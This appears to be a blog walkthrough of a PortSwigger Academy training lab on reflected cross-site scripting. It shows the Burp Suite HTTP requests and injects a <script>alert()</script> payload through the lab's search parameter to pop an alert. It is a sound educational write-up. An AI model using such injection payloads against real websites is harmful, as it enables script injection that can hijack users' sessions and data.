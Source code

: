 ```yaml
---
title: "Reflected XSS into HTML context with nothing encoded Walkthrough"
description: "Do you really know about Reflected XSS ??"
date:  2024-09-28
categories: [Walkthrough]
tags: [PortSwigger, Academy , Lab , PortSwigger Academy Lab , XSS , Cross Site Scripting, Reflected XSS , HTML]
image: 
    path : https://i.imghippo.com/files/Gg1FK1727518360.gif
---
```




#### <span style="color: Orange;"><b># What do you understand by Reflected XSS ??</b></span>

When an application receives data in an HTTP request and incorporates that data in an unsafe manner inside the instant response, it might lead to reflected cross-site scripting, or XSS.  

Cross-Site Scripting (XSS) is a security vulnerability that arises when an application fails to properly sanitize user input, allowing an attacker to inject malicious scripts. To mitigate XSS, it's crucial to validate, sanitize, and encode user input. I recommend reading up on this topic to gain a deeper understanding. Here's a link to my latest [blog on XSS](https://archtrmntorr.github.io/posts/XXS-For-Beginners-101/).



**Objective :**

```
we have to perform a reflected cross-site scripting attack or have to find this in the search functionality , we can use the *alert* function
```

-> Let's start one of the example lab of reflected xss "Reflected XSS into HTML context with nothing encoded "

![Pasted image 20240720163823.png](https://i.imghippo.com/files/q2r7i1727105627.png)


- as we can see the search functionality in the lab 
- let's enter some thing and see the output 

![[Pasted image 20240720164227.png]](https://i.imghippo.com/files/6lBkc1727105632.png)

- you can see its reflect back on the webpage . 
- In Burp Suite, you can intercept and analyze HTTP requests.

```
GET /?search=nothing HTTP/2
Host: 0a0a001e0459acd9809a49f900770071.web-security-academy.net
Cookie: session=GKTxIIRL5oT8449fvDfBUo9mllMelGYI
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a0a001e0459acd9809a49f900770071.web-security-academy.net/?search=nothing
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

- Let's modify our result , a bit to pop up alert

```
GET /?search=<script>alert(nothing)</script> HTTP/2
Host: 0a0a001e0459acd9809a49f900770071.web-security-academy.net
Cookie: session=GKTxIIRL5oT8449fvDfBUo9mllMelGYI
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a0a001e0459acd9809a49f900770071.web-security-academy.net/?search=nothing
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

- as we can see we modify our request "nothing" to `<script>alert(nothing)</script>`

![[Pasted image 20240720164731.png]](https://i.imghippo.com/files/7fY0H1727105638.png)

- This is how lab is solved , this type of Getting a POPUP  , we mostly submit during the POC of xss in bug bounty program where we don't just popup alert , instead we weaponize our payload and increase the impact or severity . 

![[Pasted image 20240720164751.png]](https://i.imghippo.com/files/Lhf291727105644.png)

- To learn `impact of reflected XSS attacks` , `reflected XSS in different contexts` and `How to find and test for reflected XSS vulnerabilities` [read my blog on XSS .](https://archtrmntorr.github.io/posts/XXS-For-Beginners-101/)



------------------------------------------------------------------



##### <span style="color: Green;"><b># Final Thoughts</b></span>



I hope this space continues to be helpful in your learning journey!. If you find this blog helpful, I’d love to hear your thoughts—my inbox is always open for feedback. Please excuse any typos, and feel free to point them out so I can correct them. Thanks for understanding and happy learning!. You can contact me on
[Linkedin](https://www.linkedin.com/in/hitesh-sharma-413862245) and [Twitter](https://twitter.com/archtrmntor)











